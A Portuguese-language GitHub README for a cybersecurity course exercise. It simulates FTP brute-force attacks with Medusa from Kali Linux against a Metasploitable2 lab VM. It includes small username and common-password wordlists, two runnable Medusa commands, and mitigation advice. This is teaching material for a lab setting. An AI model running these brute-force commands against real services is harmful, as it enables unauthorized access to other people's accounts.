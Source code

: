 # Desafio: Simulação de Ataques de Força Bruta (Simples)

> Projeto simples para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux, Medusa e máquinas vulneráveis (Metasploitable2).

---

## ✅ Objetivo

Simular ataques de força bruta em serviços FTP e registrar comandos, wordlists usadas, evidências e propor recomendações de mitigação.

## 🧰 Ferramentas e imagens

* Kali Linux (VM)
* Metasploitable2 (VM)
* Medusa (Kali)
* Wordlists simples

---

## Estrutura do repositório

```
├─ README.md
├─ wordlists/
│  ├─ users.txt
│  └─ pass.txt
└─ commands.txt
```

---

## Configuração das VMs

1. Criar 2 VMs no VirtualBox: Kali Linux e Metasploitable2.
2. Iniciar ambas as VMs e confirmar IPs com `ifconfig` / `ip a`.

---

## Wordlists

**wordlists/users.txt**

```
admin
user
guest
test
root
```

**wordlists/pass.txt**

```
123456
password
admin
root
1234
qwerty
```

---

### 1) Força bruta em FTP (Medusa)

```bash
# Usuário único
medusa -h 192.168.56.101 -u ftpuser -P wordlists/pass.txt -M ftp

# Lista de usuários + senhas
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/pass.txt -M ftp
```

**O que verificar:** conexão estabelecida, login bem-sucedido exibido no output do Medusa, acesso ao diretório ftp após credenciais encontradas.

---

## Recomendações de mitigação

* Implementar políticas de senhas fortes.
* Bloqueio gradual ou temporário após múltiplas tentativas falhas.
* Habilitar autenticação multifator (MFA).
* Monitoramento e alertas para tentativas repetidas de login.

---

## Observações finais

* **Atenção legal:** Esses testes foram elaborados em ambiente controlado para fins didáticos durante a participação no curso de Cyber Security da DIO.